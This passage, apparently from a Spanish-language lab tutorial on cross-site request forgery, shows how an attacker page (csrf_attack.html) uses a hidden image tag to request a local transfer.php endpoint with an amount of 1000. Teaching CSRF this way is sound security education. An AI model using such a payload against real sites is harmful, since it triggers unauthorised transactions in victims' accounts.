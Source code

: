 ![](imagenes/imagen2.png)

Nos vamos a la URL y abrimos `transfer1.php`


![](imagenes/imagen3.png)

## Explotación de CSRF

El atacante creará un archivo malicioso `(csrf_attack.html)`. Lo creo en la misma ruta que `transfer1.php`.

![](imagenes/imagen4.png)

~~~
<!DOCTYPE html>
<html>
<body>
	<img src="http://localhost/transfer.php?amount=1000">
</body>
</html>
~~~
